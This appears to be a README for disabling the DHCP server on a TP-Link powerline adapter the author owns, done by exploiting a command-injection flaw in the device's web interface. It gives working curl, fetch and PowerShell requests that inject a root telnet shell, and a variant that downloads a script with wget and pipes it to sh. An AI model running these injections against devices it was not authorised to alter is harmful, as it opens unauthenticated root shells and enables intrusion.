 # Disable DHCP
This disables the DHCP server, which breaks internet on networks with a primary DHCP server. See [this forum post on the TP-Link forums](https://community.tp-link.com/us/home/forum/topic/106148) for user complaints. TP-Link never updated the firmware on this model to add on option to disable the server.

# Usage
## 1
Log into powerline web interface/management page
## 2
Note the url/ip address to the powerline and authorization cookie
## 3
Send an authenticated HTTP POST request to `http://${powerline_url}/powerline?form=plc_device` with the following data. Alternatively, sent the request from your browser. Use either CURL, setting the shell script variables `powerline_url` and `authorization_cookie` to appropriate values:
```bash
curl 'http://${powerline_url}/admin/powerline?form=plc_device' -X POST -H 'Accept: application/json, text/javascript, */*; q=0.01' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: ${powerline_url}/' -H 'Origin: ${powerline_url}' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Cookie: Authorization=${authorization_cookie}' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'X-Requested-With: XMLHttpRequest' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache' --data-raw 'operation=remove&key=1;telnetd -l /bin/sh'
```
or this JavaScript fetch code (run on powerline page):
```javascript
await fetch(`http://${powerlineUrl}/admin/powerline?form=plc_device`, {
    "credentials": "include",
    "headers": {
        "Accept": "application/json, text/javascript, */*; q=0.01",
        "Accept-Language": "en-US,en;q=0.5",
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
        "X-Requested-With": "XMLHttpRequest",
        "Pragma": "no-cache",
        "Cache-Control": "no-cache"
    },
    "referrer": `http://${powerlineUrl}/`,
    "body": "operation=remove&key=1;telnetd -l /bin/sh",
    "method": "POST",
    "mode": "cors"
});
```
or PowerShell code (not really tested):
```powershell
$session = New-Object Microsoft.PowerShell.Commands.WebRequestSession
$session.Cookies.Add((New-Object System.Net.Cookie("Authorization", $authorizationCookie, "/", $powerlineUrl)))
Invoke-WebRequest -UseBasicParsing -Uri "http://$powerlineUrl/admin/powerline?form=plc_device" `
-Method POST `
-WebSession $session `
-Headers @{
"Accept" = "application/json, text/javascript, */*; q=0.01"
  "Accept-Language" = "en-US,en;q=0.5"
  "Accept-Encoding" = "gzip, deflate"
  "Referer" = "http://$powerlineUrl/"
  "Origin" = "http://$powerlineUrl"
  "DNT" = "1"
  "X-Requested-With" = "XMLHttpRequest"
  "Pragma" = "no-cache"
  "Cache-Control" = "no-cache"
} `
-ContentType "application/x-www-form-urlencoded; charset=UTF-8" `
-Body "operation=remove&key=1;telnetd -l /bin/sh"
```

This exploits a command injection vulnerability in the http server code on the powerline to start a telnet server. Thanks to [this blog post](https://the-hyperbolic.com/posts/hacking-the-tlwpa4220-part-1/) from the hyperbolic for a great writeup about the vulnerability.

### Easier step
Host a local HTTP/FTP server with payload.sh and change the above body to 
```
"operation=remove&key=1;wget -q -O - http://<server to download payload>/payload.sh | sh"
```

This disables the DHCP server by running the script directly downloaded from the internet and doesn't require any other commands. Read some [final notes](#done)

## 4
Run `payload.sh` on the powerline via telnet by running on your local machine `upload-payload.sh`

Read the output and make there aren't any errors.

If you don't see any output, try increasing the sleep time higher than 15.
If the payload was interrupted or already run before, you may need to undo its partially changes before rerunning the script. I should document how to do that.

(see https://unix.stackexchange.com/a/296161) for source of this command.

Alternatively, copy and paste the contents into telnet.

## 5
To verify if command worked, telnet into the powerline and print the contents of `/usr/sbin/udhcpd`:
```bash
cat /usr/sbin/udhcpd
```
Verify that it is just a shell script that just creates the `/tmp/udhcpd.pid` file or something similar.

## 6
Kill the telnet server since that is a big vulernability
```bash
killall telnetd
```

## Done
And that's it. The DHCP server on the powerline should never start up. This process will need to be repeated each time the powerline is rebooted or loses power since this modifies only RAM and not the persistent firmware. A modified firmware could be created that disables the DHCP server permanently, but I'm scared of bricking my device, so I chose this route instead.

This device doesn't appear to have any recovery mechanisms via TFTP like some routers.

# Technical Details
The daemon LanSettingsd starts `/usr/sbin/udhcpd`, which is from `busybox`, under certain conditions.
From reverse engineering via Ghidra, one condition triggering it is when LAN settings (IP address, subnet mask, etc.) are written to (changed) from the web, but I'm not very confident about that.

This solution overwrites the `udhcpd` executable with a shell script that returns immediately instead. The shell script also creates a `/tmp/udhcpd.pid` file because LanSettingsd appears to use that file to decide whether to try starting `udhcpd` again. There shouldn't be any impact of it starting the modified `udhcpd` mulitple times, but it seems inefficient. See the function `FUN_00011070` in `LanSettingd`.

The root filesystem is a squashfs which is read-only. To allow modifications, therefore, we bind mount a tmpfs (`/tmp/hacked_sbin`) over `/usr/sbin` and put a modfied copy of the original `/usr/sbin` into the tmpfs.

I could also paste the entire command into the command injection rather than use telnet. Figuring out escaping seems a bit annoying. Also, I'm not sure if there's a character limit. In `httpd`, the `execFormatCmd` function appears to have a 2048 byte buffer, which might be a limit (though large enough for our purposes).
